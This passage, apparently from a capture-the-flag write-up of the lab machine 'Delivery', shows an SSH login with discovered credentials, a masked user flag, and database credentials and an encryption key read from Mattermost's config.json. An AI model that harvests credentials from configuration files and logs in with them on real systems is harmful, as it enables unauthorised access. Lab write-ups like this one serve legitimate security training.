 Those creds do work to SSH to the box:

```

oxdf@parrot$ sshpass -p 'Youve_G0t_Mail!' ssh maildeliverer@10.10.10.222
Warning: Permanently added '10.10.10.222' (ECDSA) to the list of known hosts.
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5

```

And grab `user.txt`:

```

maildeliverer@Delivery:~$ cat user.txt
6b22a6ae************************

```

## Shell as root

### Enumeration

#### MM Config

Mattermost stores it’s configuration in `/opt/mattermost/config/config.json`. The database connection information is in here:

```

maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
...[snip]...
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000, 
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },    
...[snip]...

```

